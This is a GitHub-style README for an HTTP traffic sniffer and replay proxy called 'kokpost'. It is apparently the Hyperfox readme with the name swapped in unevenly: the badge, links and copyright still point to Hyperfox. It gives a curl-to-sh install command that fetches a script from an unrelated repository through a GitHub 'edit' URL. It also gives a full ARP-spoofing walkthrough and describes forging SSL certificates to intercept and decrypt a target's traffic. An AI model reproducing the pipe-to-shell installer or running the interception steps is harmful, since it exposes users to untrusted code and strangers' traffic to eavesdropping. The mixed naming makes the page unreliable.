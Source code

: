 # kokpost
HTTP traffic sniffer and replay

# kokpost

[![Build Status](https://travis-ci.org/malfunkt/hyperfox.svg?branch=master)](https://travis-ci.org/malfunkt/hyperfox)

[kokpost][1] is a HTTP traffic sniffer tool for proxying and recording HTTP and HTTPs
communications on a LAN.

Hyperfox is capable of forging SSL certificates on the fly if you provide it
with a root CA certificate and its corresponding key. If the target machine
recognizes the root CA as trusted, then HTTPs traffic can be successfully
decrypted, intercepted and recorded.

## Get `kokpost`

You can install hyperfox to `/usr/local/bin` with the following command (requires
admin privileges):

```sh
curl -sL 'https://github.com/datapointio/kokpost/edit/master/install.sh' | sh
```

## Running kokpost on Linux

The following example assumes that Hyperfox is installed on a Linux box (host)
on which you have root access or sudo privileges and that the target machine is
connected on the same LAN as the host.

We are going to use the [arpfox][4] tool to alter the ARP table of the target
machine in order to make it redirect its traffic to Hyperfox instead of to the
legitimate LAN gateway. This is an ancient technique known as [ARP
spoofing][6].

First, identify both the local IP of the legitimate gateway and its matching
network interface.

```sh
sudo route
# Kernel IP routing table
# Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
# default         10.0.0.1        0.0.0.0         UG    1024   0        0 wlan0
# ...
```

The interface in our example is called `wlan0` and the interface's gateway is
`10.0.0.1`.

```sh
export HYPERFOX_GW=10.0.0.1
export HYPERFOX_IFACE=wlan0
```

Then identify the IP address of the target, let's suppose it is `10.0.0.143`.

```sh
export HYPERFOX_TARGET=10.0.0.143
```

Enable IP forwarding on the host for it to act (temporarily) as a common
router.

```sh
sudo sysctl -w net.ipv4.ip_forward=1
```

Issue an `iptables` rule on the host to instruct it to redirect all traffic
that goes to port 80 (commonly HTTP) to a local port where Hyperfox is
listening to (1080).

```sh
sudo iptables -A PREROUTING -t nat -i $HYPERFOX_IFACE -p tcp --destination-port 80 -j REDIRECT --to-port 1080
```

We're almost ready, prepare Hyperfox to receive plain HTTP traffic:

```sh
hyperfox
# ...
# 2014/12/31 07:53:29 Listening for incoming HTTP client requests on 0.0.0.0:1080.
```

Finally, run `arpfox` to alter the target's ARP table so it starts sending its
network traffic to the host box:

```sh
sudo arpfox -i $HYPERFOX_IFACE -t $HYPERFOX_TARGET $HYPERFOX_GW
```

and watch the live traffic coming in.

## Contributing to kokpost

Sure, there's a lot of opportunity. Choose an [issue][7], fix it and send a
pull request.

## License

> Copyright (c) 2012-today José Carlos Nieto, https://menteslibres.net/xiam
>
> Permission is hereby granted, free of charge, to any person obtaining
> a copy of this software and associated documentation files (the
> "Software"), to deal in the Software without restriction, including
> without limitation the rights to use, copy, modify, merge, publish,
> distribute, sublicense, and/or sell copies of the Software, and to
> permit persons to whom the Software is furnished to do so, subject to
> the following conditions:
>
> The above copyright notice and this permission notice shall be
> included in all copies or substantial portions of the Software.
>
> THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND,
> EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF
> MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND
> NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE
> LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION
> OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION
> WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

[1]: https://hyperfox.org
[2]: https://golang.org/doc/install
[3]: https://en.wikipedia.org/wiki/Man-in-the-middle_attack
[4]: https://github.com/malfunkt/arpfox
[5]: http://git-scm.com
[6]: https://en.wikipedia.org/wiki/ARP_spoofing
[7]: https://github.com/malfunkt/hyperfox/issues
